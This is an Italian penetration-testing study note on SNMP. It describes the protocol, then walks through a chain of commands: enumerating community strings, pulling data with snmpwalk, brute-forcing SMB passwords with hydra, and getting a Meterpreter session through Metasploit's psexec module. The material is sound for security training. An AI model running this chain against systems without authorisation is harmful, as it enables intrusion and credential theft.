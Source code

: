 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# SNMP

**SNMP (Simple Network Management Protocol)** è un protocollo di livello applicativo utilizzato per monitorare e gestire dispositivi di rete come router, switch, stampanti, server e altro. 
Permette agli amministratori di:
- interagire con i dispositivi,
- ricevere avvisi quando si verificano eventi rilevanti (trap),
- modificare parametri di configurazione,
- interrogare lo stato del sistema.

SNMP utilizza generalmente **UDP** per il trasporto e si basa su tre componenti principali:

- **SNMP Manager** → effettua richieste e riceve risposte dagli agent.
- **SNMP Agent** → è un software presente sui dispositivi che risponde alle richieste e invia trap (ovvero notifiche asincrone inviate quando accade un evento specifico, come il superamento di una soglia, la disconnessione di un'interfaccia, ecc.).
- **Management Information Base (MIB)** → struttura gerarchica dei dati disponibili tramite SNMP. Ogni voce della MIB ha un identificatore univoco, chiamato **OID (Object Identifier)**.

---

## Versioni di SNMP

- **SNMPv1** → la prima versione, usa **community string** come metodo di autenticazione. <br>
Le community string sono stringhe di testo in chiaro che fungono da password condivise tra manager e agent. <br>
Le più comuni sono `public` (solitamente per lettura) e `private` (per scrittura).
- **SNMPv2c** → introduce funzionalità migliorate (come i bulk transfer) ma mantiene lo stesso meccanismo di autenticazione di v1 (community string).
- **SNMPv3** → introduce **autenticazione basata su utente**, **integrità dei messaggi** e **crittografia**, rendendolo l'unica versione realmente sicura.

SNMP usa:
- **porta 161 UDP** per query (Get, GetNext, ecc.)
- **porta 162 UDP** per ricevere trap (notifiche SNMP).

---

## Fase 1 – Scansione del Servizio

Per verificare se SNMP è attivo:
```bash
nmap -sU -p161 <IP>
```

Per identificare le comunity strings:
```bash
nmap -sU -p161 --script snmp-brute <IP>
```
Il file di wordlist utilizzato da default è:
```
/usr/share/nmap/nselib/data/snmpcommunities.lst
```

---

## Fase 2 – Raccolta Informazioni con snmpwalk

Una volta trovata una community string valida, possiamo usarla per interrogare il dispositivo e raccogliere informazioni:

```bash
snmpwalk -v 1 -c <community_string> <IP>
```
- `-v 1` specifica la versione SNMP (in questo caso v 1) ottenuta tramite `nmap -sV`
- `-c` indica la community string da usare (es. `public`)

SNMPwalk esegue richieste **GET-NEXT** per recuperare interi blocchi di OID. Questo consente di:
- identificare nomi host, sistema operativo, interfacce di rete,
- estrarre tabella di routing, indirizzi IP, MIB di configurazione,
- ottenere informazioni sugli utenti e gruppi presenti,
- rilevare servizi attivi o applicazioni installate.

---

## Fase 3 – Raccolta Completa con Nmap

Per eseguire una scansione SNMP completa:
```bash
nmap -sU -p161 --script snmp-* <IP> > snmp_info
```
Questo comando userà tutti gli script NSE relativi a SNMP e salverà l'output nel file `snmp_info`. <br>
Visualizzando il contenuto del file, potremmo ottenere varie informazioni come tabelle di routing, interfacce di rete usate indirizzi IP e a volte anche dei nomi utenti. <br>

--- 

## Fase 4 - Bruteforce con hydra
Se SNMP dovesse mostrare dei nomi utenti, possiamo salvarli in un file per poteri utilizzare con hydra e scovare le relative password e accedere a SMB:
```bash
hydra -L utenti.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> smb
```

---

## Fase 5 - Accesso con PsExec di Metasploit
Dopo aver ottenuto le credenziali, é possibile usare psexec per poter ottenere una sessione meterpeter:
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUSER <username>
set SMBPASS <password>
exploit
```
cosí da ottenere una sessione meterpeter per poter interagire con il target. 

---
